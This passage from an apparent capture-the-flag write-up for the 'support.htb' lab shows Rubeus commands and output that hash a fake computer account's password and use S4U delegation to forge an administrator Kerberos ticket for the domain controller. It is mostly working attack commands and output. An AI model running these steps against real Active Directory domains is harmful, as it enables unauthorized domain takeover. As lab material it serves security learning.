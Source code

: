 ## Auth as Fake Computer

Use Rubeus to get the hash of my fake computer account:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 0xdf0xdf123
[*] Input username             : 0xdfFakeComputer
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTB0xdfFakeComputer
[*]       rc4_hmac             : B1809AB221A7E1F4545BD9E24E49D5F4
[*]       aes128_cts_hmac_sha1 : 0606EB253C5CDCF0A162194DFB8D36BD
[*]       aes256_cts_hmac_sha1 : 5615BE33C94A8FEAED46F39DAFB86E6A24F3707DD60CDF4AAD5B41751A111A64
[*]       des_cbc_md5          : 37C76E1AA7E99E2F
```

We need the one labeled rc4_hmac, which I’ll pass to Rubeus to get a ticket for administrator:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxywbRE3hA
      cROdVj4dSLIVUQTNPhQXwxCpHGEHeEAFZR4ZqqPd/G2hj20h5iPIWNXXLuZrTyr7LJqS0jpH8n+bVMFF
      sYpSR6XAo1IjICHGhKW73UAe+NjqV2CoIIbVHV5uk6XN1UonSAIGWwlwJ0jhMbLb/aEWy+ylwXspfLME
      ugoBrCDg4vsc1G+tui9JwmlUyFjvoJF3ck3t20hXcRNQYKCn0Cs59pmiCMep/Pzk9E7ATxQRpm9FBdOO
      xvckz/DGPn8Ya17wWo5YL+6kylRlgm84XbJbGkhBHPkAESlZ5okOhG4Cr4Nda/i1I7us49HT2XyIxpcX
      EBwTci4LpSu3qdTmLMxsB8HATVFjAeIVJt/ku47AYy3q4KiYFIyOhF47cUNO9Wc9j6/fKZl3OCrM1R7P
      tY3mLfYBmSk+UKqQa68RuMfnVW/8yQPf1htvDjwarvJuFYUQccAbWKBq/SHjtSimAyoUdkrBHyJ0W1MV
      T6hUsozk+PAdH18Z8HqXHFIkl19Rmth6Lz/j/WtsCuLA7cbuUvVk6tZXIlSPjnQfaImqRfJKmlcMkkY/
      eEco/SwVQyS0gy3/r90L6hDLxcpXWKWyJESHjCXGW6hW3FJpxlcMzL8RngNy8IEHHwjYD9ZGQzHiRrmu
      ydEalO/IDQ49+kJIJ/mXWtssPqdnUe4gBFw0XJbQb18Sqh/1FUrN0e2KBFLuRJ9n/aEHQpTKCAF8pytH
      eu/yWCnlMfFrdy7Dg6sAKDdBM0EQMC42u7wJIFAzkwwdM+xQllo7oARtv78UCLLfr6OwNhpdURhMVWhP
```